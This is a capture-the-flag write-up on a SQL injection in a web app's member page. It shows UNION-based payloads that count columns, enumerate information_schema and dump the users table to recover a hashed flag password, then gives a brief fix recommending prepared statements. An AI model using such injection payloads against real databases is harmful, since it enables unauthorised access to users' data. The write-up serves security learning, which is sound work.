 ## Exploit
On the member page `${URL}?page=member`, we get SQL errors if we type random data, hinting at an SQL injection vulnerability, which happens when the user can directly control the SQL query sent to the database.

First let's get the number of rows. The UNION statement allows us to execute additional queries and to append them to the original one.
```SQL
1=1 UNION SELECT NULL           # 'The used SELECT statements have a different number of columns'
1=1 UNION SELECT NULL,NULL      # works
1=1 UNION SELECT NULL,NULL,NULL # 'The used SELECT statements have a different number of columns'
```
We can conclude that we have access to two columns of output, let's try getting the table and column names from the [mySQL schema](https://dev.mysql.com/doc/mysql-infoschema-excerpt/5.6/en/information-schema-columns-table.html)

```SQL
1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
We can see that the `users` table contains several informations about them, such as `user_id` `first_name` `last_name` `town` `country` `planet` `Commentaire` and `countersign`

MySQL uses the `CONCAT` function to concacenate multiple strings
```SQL
1=1 UNION SELECT NULL, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

We get `Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28` as the last result, the decrypted md5 reads `FortyTwo`, let's convert it to sha256
```shell
$ echo -n fortytwo | sha256sum
[REDACTED] -
```

## Fix
To defend against SQL injections developers should use prepared statements with parameterized queries, this will prevent any chance of injections occuring.
A less effective method that should be avoided is to escape the user supplied input, this method is heavily dependent on the database implementation and error-prone, it can make for a secondary defense however.
